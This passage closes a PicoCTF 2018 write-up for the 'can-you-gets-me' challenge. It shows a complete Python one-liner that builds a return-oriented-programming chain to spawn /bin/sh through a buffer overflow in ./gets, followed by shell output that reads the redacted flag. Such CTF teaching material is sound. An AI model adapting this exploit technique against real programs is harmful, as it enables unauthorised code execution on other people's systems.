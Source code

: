 Finally, you can verify that it all works as expected:
```
$ cd /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d
$ (python -c 'import struct, os; p = lambda x : struct.pack("<I", x); os.write(1, (b"U"*28 + p(0x080b84d6) + b"/bin" + p(0x0806f19a) + p(0x080ea060) + p(0x08054b4b) + p(0x080b84d6) + b"//sh" + p(0x0806f19a) + p(0x080ea064) + p(0x08054b4b) + p(0x080b84d6) + p(0x00000000) + p(0x0806f19a) + p(0x080ea068) + p(0x08054b4b) + p(0x080b84d6) + p(0x0000000b) + p(0x0806f1c0) + p(0x080ea068) + p(0x080ea068) + p(0x080ea060) + p(0x0806f7a0) + b"\n"))'; cat -) | ./gets
GIVE ME YOUR NAME!
ls
flag.txt  gets  gets.c
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

**Congrats**: You've now mastered *every single buffer overflow exploit*, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the heap challenges!